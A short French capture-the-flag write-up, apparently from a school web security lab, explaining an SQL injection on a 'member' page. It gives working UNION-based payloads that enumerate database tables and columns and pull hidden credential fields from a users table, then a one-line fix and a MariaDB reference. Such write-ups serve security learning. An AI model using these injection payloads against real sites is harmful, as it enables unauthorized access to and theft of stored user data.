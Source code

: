 <h1>Faille</h1>

Sur la page `member`, il y a une SQL Injection.
Au début, j'ai affiché tous les users de la table avec `1 or 1` ce qui me permet de constater qu’il y a une SQL Injection.

`1 or 1`<br>
```1 UNION SELECT table_name, table_type FROM information_schema.tables```

- Rechercher les tableau de type "BASE TABLE"
- db_default `users` guestbook list_images vote_dbs

```1 UNION SELECT table_name, table_schema FROM information_schema.tables```
- Donc table_name: Member_Sql_Injection, table_schema: users

```1 UNION SELECT table_name, column_name FROM information_schema.columns```
- user_id, first_name, last_name, town, country, planet, Commentaire, countersign

```1 or 1 UNION SELECT  countersign, commentaire FROM Member_Sql_Injection.users```

FortyTwo -> lower all the char -> fortytwo -> hash with Sha256 pour trouver le flag le flag

<h1>Éviter cette faille</h1>

Proteger les requetes SQL.

<h1>Ressources</h1>

Information_schema: https://mariadb.com/kb/en/information-schema-columns-table/
